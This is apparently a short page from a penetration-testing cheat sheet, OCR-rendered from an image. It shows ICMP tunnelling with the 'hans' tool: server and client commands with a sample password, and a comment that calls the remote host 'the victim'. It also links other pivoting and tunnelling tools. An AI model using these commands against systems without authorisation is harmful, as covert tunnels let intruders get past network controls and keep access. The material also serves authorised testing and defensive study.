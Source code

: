 <ins>https://github.com/friedrich/hans</ins>  <ins>https://github.com/albertzak/hanstunnel</ins>

Root is needed in both systems to create tun adapters and tunnels data between them using ICMP echo requests.

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3 | `.``/hans` `-``v` `-f -s 1.1.1.1 -p P@ssw0rd` `#Start listening (1.1.1.1 is IP of the new vpn connection)`<br><br>`.``/hans` `-f -c <server_ip> -p P@ssw0rd -``v`<br><br>`ping` `1.1.1.100` `#After a successful connection, the victim will be in the 1.1.1.100` |

# Other tools to check<ins></ins>

- <ins>https://github.com/securesocketfunneling/ssf</ins>
- <ins>https://github.com/z3APA3A/3proxy</ins>
- <ins>https://github.com/jpillora/chisel</ins>